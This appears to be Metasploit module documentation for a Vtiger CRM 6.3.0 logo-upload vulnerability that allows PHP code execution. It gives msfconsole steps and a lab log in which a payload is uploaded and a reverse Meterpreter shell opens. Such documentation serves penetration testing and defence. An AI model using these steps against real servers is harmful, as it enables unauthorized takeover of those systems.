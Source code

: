 ## Description

Vtiger v6.3.0 CRM's administration interface allows for the upload of a company logo.
The logo upload allows unrestricted file upload and can be used to upload php code,
which can then be executed by requesting the uploaded file location.


## Vulnerable Application

[Vtiger v6.3.0](https://sourceforge.net/projects/vtigercrm/files/vtiger%20CRM%206.3.0/Core%20Product/)


## Options

**PHPSHORTTAG**
Specify the use of php short tag, `<? `, for wrapping the payload.
Default: true


## Verification Steps

1. `./msfconsole -q`
2. `use exploit/multi/http/vtiger_logo_upload_exec`
3. `set rhosts <rhost>`
4. `set password <password>`
5. `run`


## Scenarios

### VtigerCRM v6.3.0 tested on Windows 10 x64 (Apache 2.2.26 / PHP 5.3.10)

```
msf > use exploit/multi/http/vtiger_logo_upload_exec
msf exploit(multi/http/vtiger_logo_upload_exec) > set rhosts 172.22.222.175
rhosts => 172.22.222.175
msf exploit(multi/http/vtiger_logo_upload_exec) > set rport 8899
rport => 8899
msf exploit(multi/http/vtiger_logo_upload_exec) > set password admin
password => admin
msf exploit(multi/http/vtiger_logo_upload_exec) > run 

[*] Started reverse TCP handler on 172.22.222.121:4444 
[*] Uploading payload: KpXAXQNKjN.php
[*] Sending stage (37775 bytes) to 172.22.222.175
[*] Meterpreter session 1 opened (172.22.222.121:4444 -> 172.22.222.175:50295) at 2018-07-30 11:53:50 -0500
[+] Deleted KpXAXQNKjN.php

meterpreter > sysinfo
Computer    : MSEDGEWIN10
OS          : Windows NT MSEDGEWIN10 6.2 build 9200 (Unknow Windows version Enterprise Edition) i586
Meterpreter : php/windows
meterpreter >
```
